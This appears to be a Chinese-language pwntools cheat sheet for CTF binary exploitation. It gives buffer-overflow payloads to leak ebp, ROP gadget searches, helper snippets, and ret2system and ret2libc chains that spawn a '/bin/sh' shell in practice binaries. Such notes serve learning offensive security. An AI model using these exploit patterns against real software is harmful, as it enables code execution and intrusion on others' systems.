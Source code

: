 ## 各函数的细节区别 scanf 用 sendline, read 用 send

| 函数名 | pwn 工具 | 输出的区别     |
| ------ | -------- | -------------- |
| scanf  | sendline |                |
| read   | send     |                |
| puts   |          | 发送后追加`\n` |
| printf |          | 不追加`\n`     |

## 溢出读取 ebp 值

sendline 发送时\n 会占一个字符 0x4 大小发 `sendline 'a'*4` 会发 5 个字符引发问题。

举例

```c
char s[40]; // [ebp-28h]
read(0, s, 0x30u);


// 要输出 ebp 需要 0x20 个字节这时只要覆盖最后的 00 即可输出 ebp，read时用send,不用sendline
// 如果是scanf要用 sendline
payload1 = b'A' * (0x27) + b'B'
p.send(payload1)  # not sendline
p.recvuntil("B")
original_ebp = u32(p.recv(4))
```

### 填充指定大小

```py
'a'.ljust(268, ' ')
```

## 使用默认的 libc

```
elf = ELF("./canary")
libc = elf.libc
```

## find leave asm

```python
leave_ret = elf.search(asm('leave')).__next__()

pop_rdi = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = ROP(elf).find_gadget(['pop rsi'])[0]
leave_ret = ROP(elf).find_gadget(['leave', 'ret'])[0]
print(hex(pop_rdi))
```

## snippets

```python
ss = lambda data: s.send(str(data))
sa = lambda delim, data: s.sendafter(str(delim), str(data))
sl = lambda data: s.sendline(data)
sls = lambda data: s.sendline(str(data))
sla = lambda delim, data: s.sendlineafter(str(delim), str(data))
r = lambda num: s.recv(num)
ru = lambda delims, drop=True: s.recvuntil(delims, drop)
itr = lambda: s.interactive()
uu32 = lambda data: u32(data.ljust(4, b'\x00'))
uu64 = lambda data: u64(data.ljust(8, b'\x00'))
leak = lambda name, addr: log.success('{} = {:#x}'.format(name, addr))
l64 = lambda: u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
l32 = lambda: u32(p.recvuntil("\xf7")[-4:].ljust(4, b"\x00"))

bss_addr = elf.bss()
```

# Stack

## 栈对齐

```python
rop = ROP(elf)
rop.raw(b'a' * (64 + 8))
rop.raw(flat(ret)) # 方式1. 加个ret即可
rop.call(system, [bin_sh]) # 栈对齐

# 方式2 不加ret 加参数 rop.call(system, [bin_sh, '0']) # 栈对齐
```

## ret2system

```sh
# ciscn_2019_es_2
elf.plt['system'] + p32(0) + binsh_addr  # 是地址不是 "/bin/sh" 字符
payload =p32(0) + p32(elf.plt['system']) + p32(0) + p32(stdin_addr+0x10) + b'/bin/sh\x00'
payload = payload.ljust(0x28, '\x00')
```

# rop

见 pwn_01_stack_03_ret2libc_x64_00_ctfhub_bypwntool_rop.py

```sh
rop = ROP('./ret2libc') # x64
rop.raw(b'A' * (144 + 8))  # 填充144 + fake_rbp(8) 个字节的数据到缓冲区中
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# rop.call 会自动 pop rdi, ret来传入参数
rop.call(puts_plt, [puts_got]) # puts_plt(puts_got, arg2, arg3, arg4, ...)
rop.call('main')  # 自动构建下一步的ret调用main函数，使程序重新运行
p.sendline(rop.chain())

# 再发送时要重新构建 rop
rop = ROP('./ret2libc')
rop.raw(b'A' * (144 + 8))
rop.call(system_addr, [binsh_addr])
```
